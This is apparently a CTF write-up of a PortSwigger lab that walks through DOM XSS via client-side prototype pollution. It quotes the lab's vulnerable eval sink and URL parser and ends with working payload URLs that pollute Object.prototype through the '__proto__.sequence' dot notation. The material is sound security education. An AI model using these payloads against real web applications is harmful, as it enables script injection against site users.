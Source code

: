 ```yaml
---
title: PortSwigger - DOM XSS via an alternative prototype pollution vector
date: 2025-04-13 09:22:00 -5000
categories: [CTF]
tags: [ctf, web, prototype pollution]     # TAG names should always be lowercase
---
```


This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

![](/assets/portswigger/dom-xss-via-an-alternative-prototype-pollution-vector/0.png)

*Website Landing Page*

<br/>

When looking for Prototype pollution, we need find some logic that that:
1. Parses user supplied JSON
2. Constructs a JavaScript object in a way that prototype pollution can be introduced. This is usually through a merge function like so:
```jsx
for(var attr in source) {
    if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
        merge(target[attr], source[attr]);
    } else {
        target[attr] = source[attr];
    }
}
```

3. The user controlled object needs to end up in an XSS sink.

<br/>

# Finding the Sink
I prefer to search for the sinks in the application and then work my way backwards to see if that source is controllable. When searching through the JavaScript code, the following code block stood out in the `searchLoggerAlternative.js` file. 

```jsx
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

<br/>

The `eval` function has a value that is potentially controllable. If we are able to control the `manager.sequence` value then we can get XSS.

<br/>

# Finding the Source

Now that we have the sink, lets work our way backwards to find where the `manager.sequence` is coming from. The `manager`value is being set just above with the following code: 

```jsx
window.manager = {params: $.parseParams(new URL(location)), macro(property) {
    if (window.macros.hasOwnProperty(property))
        return macros[property]
}};
```

<br/>

The `new URL(location)` is a controllable source.  The URL object is being passed into the `parseParams` function. The returned value from the function will be the value to the key `params`  in the `manager` object. If the `parseParams` is vulnerable to prototype pollution, then we will be able to add the key `sequence` to the `manager` object to get XSS.

The `parseParams` function below is quite long. Thankfully there is an explanation in the code’s comments.

```jsx
// Add an URL parser to JQuery that returns an object
// This function is meant to be used with an URL like the window.location
// Use: $.parseParams('http://mysite.com/?var=string') or $.parseParams() to parse the window.location
// Simple variable:  ?var=abc                        returns {var: "abc"}
// Simple object:    ?var.length=2&var.scope=123     returns {var: {length: "2", scope: "123"}}
// Simple array:     ?var[]=0&var[]=9                returns {var: ["0", "9"]}
// Array with index: ?var[0]=0&var[1]=9              returns {var: ["0", "9"]}
// Nested objects:   ?my.var.is.here=5               returns {my: {var: {is: {here: "5"}}}}
// All together:     ?var=a&my.var[]=b&my.cookie=no  returns {var: "a", my: {var: ["b"], cookie: "no"}}
// You just cant have an object in an array, ?var[1].test=abc DOES NOT WORK
(function ($) {
    var re = /([^&=]+)=?([^&]*)/g;
    var decode = function (str) {
        return decodeURIComponent(str.replace(/\+/g, ' '));
    };
    $.parseParams = function (query) {
        // recursive function to construct the result object
        function createElement(params, key, value) {
            key = key + '';
            // if the key is a property
            if (key.indexOf('.') !== -1) {
                // extract the first part with the name of the object
                var list = key.split('.');
                // the rest of the key
                var new_key = key.split(/\.(.+)?/)[1];
                // create the object if it doesnt exist
                if (!params[list[0]]) params[list[0]] = {};
                // if the key is not empty, create it in the object
                if (new_key !== '') {
                    createElement(params[list[0]], new_key, value);
                } else console.warn('parseParams :: empty property in key "' + key + '"');
            } else
                // if the key is an array
            if (key.indexOf('[') !== -1) {
                // extract the array name
                var list = key.split('[');
                key = list[0];
                // extract the index of the array
                var list = list[1].split(']');
                var index = list[0]
                // if index is empty, just push the value at the end of the array
                if (index == '') {
                    if (!params) params = {};
                    if (!params[key] || !$.isArray(params[key])) params[key] = [];
                    params[key].push(value);
                } else
                    // add the value at the index (must be an integer)
                {
                    if (!params) params = {};
                    if (!params[key] || !$.isArray(params[key])) params[key] = [];
                    params[key][parseInt(index)] = value;
                }
            } else
                // just normal key
            {
                if (!params) params = {};
                params[key] = value;
            }
        }
        // be sure the query is a string
        query = query + '';
        if (query === '') query = window.location + '';
        var params = {}, e;
        if (query) {
            // remove # from end of query
            if (query.indexOf('#') !== -1) {
                query = query.substr(0, query.indexOf('#'));
            }

            // remove ? at the begining of the query
            if (query.indexOf('?') !== -1) {
                query = query.substr(query.indexOf('?') + 1, query.length);
            } else return {};
            // empty parameters
            if (query == '') return {};
            // execute a createElement on every key and value
            while (e = re.exec(query)) {
                var key = decode(e[1]);
                var value = decode(e[2]);
                createElement(params, key, value);
            }
        }
        return params;
    };
})(jQuery);
```

<br/>

# Debugging

Sending the following typical prototype pollution payload results in an unexpected behavior.

```jsx
https://web-security-academy.net/?__proto__[sequence]=test
```

![](/assets/portswigger/dom-xss-via-an-alternative-prototype-pollution-vector/1.png)

If the JavaScript object notion doesn’t work. You should always try the dot notation too.

```jsx
https://web-security-academy.net/?__proto__.sequence=test
```

![](/assets/portswigger/dom-xss-via-an-alternative-prototype-pollution-vector/2.png)

<br/>

# Prototype Pollution

Now that we can pollution the `manager.sequence` object. We can get XSS because we have a sink in `eval`. 

```jsx
https://web-security-academy.net/?__proto__.sequence=alert(1)-
```

![](/assets/portswigger/dom-xss-via-an-alternative-prototype-pollution-vector/3.png)
